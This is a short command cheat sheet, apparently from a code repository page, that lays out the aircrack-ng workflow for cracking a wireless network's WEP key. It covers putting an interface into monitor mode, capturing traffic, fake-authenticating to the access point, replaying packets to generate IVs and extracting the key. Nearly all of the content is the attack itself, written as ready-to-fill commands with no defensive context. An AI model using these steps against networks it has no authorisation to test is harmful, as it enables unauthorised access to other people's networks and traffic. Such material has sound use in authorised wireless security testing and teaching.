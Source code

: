  **Start Interface** 
 ```bash
airmon-ng start <interface> <AP channel>  
```
  
**Start Dump Capture**  
```bash
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface> 
```
  
  
**Fake Authenticate to AP**  
```bash
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>  
```

**OR**  

```bash
aireplay-ng -1 6000 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>  
```
  
**Launch Interactive Packet Replay Attack**  
```bash
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -t 1 <interface>  
```

**OR**  

```bash
aireplay-ng -2 -b <AP MAC> -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 <interface>  
```

**OR**  

```bash
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>  
```
  
**Extract Key from Capture after enough IVs have been generated**  
```bash
aircrack-ng <capture>
```